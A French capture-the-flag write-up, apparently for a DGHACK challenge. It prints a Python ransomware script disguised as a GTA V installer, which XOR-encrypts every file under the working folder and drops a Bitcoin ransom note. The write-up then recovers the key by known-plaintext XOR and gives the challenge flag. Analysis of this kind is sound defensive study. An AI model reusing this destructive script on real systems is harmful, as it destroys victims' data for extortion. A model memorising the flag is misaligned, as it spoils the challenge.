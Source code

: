 # Pas un bon nom

> J'étais là tranquillou sur mon PC, m'voyez ? Je télécharge des films et tout, m'voyez ? Et alors il y a ce message étrange que je dois payer Dogecoin pour déchiffrer mes données. Je ne l'ai pas fait... donc maintenant mes données sont chiffrées :( Donc tiens, prends le disque dur, c'est pas comme si il était utile maintenant... Sauf si c'était possible de retrouver la clé utilisée par ce méchant hacker, m'voyez ? S'il te plaiiiit ? Tu serais adorable merci !

## Description

On nous fournit une machine virtuelle Linux qui a été victime d'un ransomware.

Dans le dossier home de l'utilisateur je trouve un fichier `gta_installer.py`: 

```python
#!/bin/python3

import os
import fileinput
import sys

main_folder = "./"

def encryptDecrypt(inpDataBytes):

    # Define XOR key
    keyLength = len(xorKey)
 
    # calculate length of input string
    length = len(inpDataBytes)
 
    # perform XOR operation of key
    # with every byte
    for i in range(length):
        inpDataBytes[i] = inpDataBytes[i] ^ ord(xorKey[i % keyLength])

    return inpDataBytes

if __name__ == '__main__':
    # list all the files in the main folder, and its subfolders
    #list_of_files = [main_folder + f for f in os.listdir(main_folder) if os.path.isfile(main_folder + f) and not f.startswith('.')]
    list_of_files = []
    for root, dirs, files in os.walk(main_folder):
        for file in files:
            if not '/.' in os.path.join(root, file):
                # get the file name
                list_of_files.append(os.path.join(root, file))
    print(list_of_files)
    print("\n")

    xorKey = input("Enter the key you received after following the instructions in READ_TO_RETRIEVE_YOUR_DATA.txt: ")

    for file in list_of_files:
        if "GTA_V_installer.py" not in file:
            with open(file, 'rb') as f:
                data = bytearray(f.read())
                print("data : " + str(data) + "\n")
                encrypted_data = encryptDecrypt(data)
                print("encrypted : " + str(encrypted_data) + "\n")
            with open(file, 'wb') as f:
                f.write(encrypted_data)

    # Create a READ_TO_RETRIEVE_YOUR_DATA.txt file
    with open(main_folder + "READ_TO_RETRIEVE_YOUR_DATA.txt", 'w') as f:
        f.write("Your PC is now encrypted.\nThe only way you may retrieve your data is by sending 1000 Bitcoins to the following address: 1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa\n")
        f.write("Add a message to the Bitcoin transfer with your email address.\nThe code to decrypt your data will be sent automatically to this email.\n")
        f.write("Once you get this code, simply run \"python GTA_V_installer.py\" and input your code.\n")
        f.write("I'm very sorry for the inconvenience. I need to feed my family.\n")
        f.write("HODL.\n")

    # I replace the line where the key is defined, that way I can use the same script for decryption without leaving any trace of the key
    is_edited = False
    for line in fileinput.input("./GTA_V_installer.py", inplace=1):
        if "xorKey = " in line and not is_edited:
            line = "    xorKey = input(\"Enter the key you received after following the instructions in READ_TO_RETRIEVE_YOUR_DATA.txt: \")\n"
            is_edited = True
        sys.stdout.write(line)
```

Les fichiers sont donc encryptés par une même clé avec XOR.

Or, je trouve en fouillant un peu deux fichiers qui sont probablement identiques :
- `Downloads/Adobe_Photoshop.torrent` qui est encrypté
- `.local/share/Trash/files/Adobe_Photoshop.torrent.txt` qui est dans la corbeille et qui est en clair.

Il s'agit probablement du même fichier, l'un en clair et l'autre non.

Comme `clair XOR clé = encrypté`, je peux retrouver la clé `clé = clair XOR encrypté`.

```python
def xor(a,b):
    c = []
    for i in range(len(a)):
        c.append(a[i] ^ b[i % len(b)])
    return bytes(c)

with open(".local/share/Trash/files/Adobe_Photoshop.torrent.txt", "rb") as f:
    decrypted = f.read()
with open("Downloads/Adobe_Photoshop.torrent", "rb") as f:
    encrypted = f.read()

key = xor(encrypted, decrypted)
print(key)
```

Ce qui me donne une chaîne en base 64 `REdIQUNLezdIMTVfMVNfN0gzX0szWV9HMVYzTl83MF83SDNfR1RBX1ZfUjRONTBNVzRSM19WMUM3MU01fQo=`.

Flag : `DGHACK{7H15_1S_7H3_K3Y_G1V3N_70_7H3_GTA_V_R4N50MW4R3_V1C71M5}`.